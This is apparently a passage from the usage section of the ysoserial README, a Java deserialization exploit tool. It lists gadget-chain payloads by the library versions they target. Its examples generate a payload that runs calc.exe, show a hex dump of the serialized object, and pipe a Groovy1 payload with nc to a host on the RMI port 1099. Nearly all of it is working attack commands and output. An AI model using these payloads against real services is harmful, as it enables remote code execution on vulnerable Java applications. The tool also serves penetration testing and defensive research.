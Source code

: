 ## Usage

```shell
$  java -jar ysoserial.jar
Y SO SERIAL?
Usage: java -jar ysoserial.jar [payload] '[command]'
  Available payload types:
     Payload             Authors                     Dependencies
     -------             -------                     ------------
     BeanShell1          @pwntester, @cschneider4711 bsh:2.0b5
     C3P0                @mbechler                   c3p0:0.9.5.2, mchange-commons-java:0.2.11
     Clojure             @JackOfMostTrades           clojure:1.8.0
     CommonsBeanutils1   @frohoff                    commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2
     CommonsCollections1 @frohoff                    commons-collections:3.1
     CommonsCollections2 @frohoff                    commons-collections4:4.0
     CommonsCollections3 @frohoff                    commons-collections:3.1
     CommonsCollections4 @frohoff                    commons-collections4:4.0
     CommonsCollections5 @matthias_kaiser, @jasinner commons-collections:3.1
     CommonsCollections6 @matthias_kaiser            commons-collections:3.1
     FileUpload1         @mbechler                   commons-fileupload:1.3.1, commons-io:2.4
     Groovy1             @frohoff                    groovy:2.3.9
     Hibernate1          @mbechler
     Hibernate2          @mbechler
     JBossInterceptors1  @matthias_kaiser            javassist:3.12.1.GA, jboss-interceptor-core:2.0.0.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     JRMPClient          @mbechler
     JRMPListener        @mbechler
     JSON1               @mbechler                   json-lib:jar:jdk15:2.4, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2, commons-lang:2.6, ezmorph:1.0.6, commons-beanutils:1.9.2, spring-core:4.1.4.RELEASE, commons-collections:3.1
     JavassistWeld1      @matthias_kaiser            javassist:3.12.1.GA, weld-core:1.1.33.Final, cdi-api:1.0-SP1, javax.interceptor-api:3.1, jboss-interceptor-spi:2.0.0.Final, slf4j-api:1.7.21
     Jdk7u21             @frohoff
     Jython1             @pwntester, @cschneider4711 jython-standalone:2.5.2
     MozillaRhino1       @matthias_kaiser            js:1.7R2
     Myfaces1            @mbechler
     Myfaces2            @mbechler
     ROME                @mbechler                   rome:1.0
     Spring1             @frohoff                    spring-core:4.1.4.RELEASE, spring-beans:4.1.4.RELEASE
     Spring2             @mbechler                   spring-core:4.1.4.RELEASE, spring-aop:4.1.4.RELEASE, aopalliance:1.0, commons-logging:1.2
     URLDNS              @gebl
     Wicket1             @jacob-baines               wicket-util:6.23.0, slf4j-api:1.6.4
```

## Examples

```shell
$ java -jar ysoserial.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:

$ java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 1099 < groovypayload.bin

```